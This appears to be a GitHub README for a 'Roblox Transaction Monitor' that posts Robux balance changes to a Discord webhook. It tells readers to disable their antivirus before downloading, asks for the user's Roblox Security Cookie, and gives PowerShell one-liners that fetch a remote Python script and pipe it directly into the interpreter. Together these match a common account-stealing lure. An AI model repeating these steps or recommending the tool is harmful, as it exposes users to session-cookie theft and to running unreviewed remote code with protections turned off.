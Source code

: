 # Roblox Transaction Monitor
![image](https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08)

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO
- [x] Create a Dropdown menu like past day month year total
- [ ] Create a Stable Application

## Configuration
The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage

Run the application by executing this command

Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```

## License
This project is licensed under the Apache License - see the LICENSE file for details.